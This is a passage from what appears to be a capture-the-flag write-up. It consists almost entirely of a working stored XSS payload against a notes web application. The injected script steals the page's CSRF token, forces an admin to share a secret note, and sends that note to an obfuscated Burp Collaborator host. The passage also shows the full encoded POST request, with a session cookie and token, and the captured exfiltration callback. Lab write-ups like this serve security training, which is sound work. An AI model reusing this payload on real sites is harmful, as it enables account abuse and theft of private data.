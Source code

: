 ```javascript
new Image()["src"]="http://2cfd9esbvqsowgg5bv5sb45gx73xrm!burpcollaborator!net/?q="["replaceAll"]("!","\x2e")+msg;
</script><textarea disabled class="textarea-auto">
```

Properly encoded, the final `POST` request to create the malicious note is as follows:

```
POST /addNotes HTTP/1.1
Host: 35.197.213.145:9998
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 920
Origin: http://35.197.213.145:9998
Connection: close
Referer: http://35.197.213.145:9998/
Cookie: connect.sid=s%3AGFZbNDy_q5gYnTiFU77IvnxRoTovFV7t.BvKBnwfizZzQ48foc6%2BEgq%2FEx6EvRlj20j4vTLtkXLE; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW1vbiJ9.XR9QBs8gEGD2WZd4yoTv9ivjo5tiFc5tnKQ8cQXrnt4
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

message=</textarea><script>
var+home+%3d+new+XMLHttpRequest()%3b
home["open"]("GET","/",false)%3b
home["send"](null)%3b
var+homee+%3d+document["createElement"]("homex")%3b
homee["innerHTML"]+%3d+home["responseText"]%3b
var+csrf+%3d+homee["getElementsByTagName"]("input")[2]["value"]%3b
var+share+%3d+new+XMLHttpRequest()%3bshare["open"]("POST","/shareNote",false)%3b
share["setRequestHeader"]("Content-type",+"application/x-www-form-urlencoded")%3b
share["send"]("id%3d1%26csrf_token%3d"%2bcsrf)%3b
var+sharee+%3d+document["createElement"]("sharex")%3b
sharee["innerHTML"]+%3d+share["responseText"]%3b
var+msg+%3d+sharee["getElementsByTagName"]("script")[0]["firstChild"]["data"]%3b
new+Image()["src"]%3d"http%3a//2cfd9esbvqsowgg5bv5sb45gx73xrm!burpcollaborator!net/%3fq%3d"["replaceAll"]("!","\x2e")%2bmsg%3b
</script><textarea+disabled+class%3d"textarea-auto">&csrf_token=GFZbNDy_q5gYnTiFU77IvnxRoTovFV7t
```

Once the admin views the note, a ping back is received and the secret note is shared.

```
GET /?q=window.location%20=%20%22/viewNote?msg=38da0324534cb65b1e3bed1a41a6d2e6ff62c2f1ea80902d7ebf8654b6db63720b2b0e247e8e2ee7b514f1e6ef7c36fa%22 HTTP/1.1
Host: 2cfd9esbvqsowgg5bv5sb45gx73xrm.burpcollaborator.net
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/92.0.4512.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://35.197.213.145:9998/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```
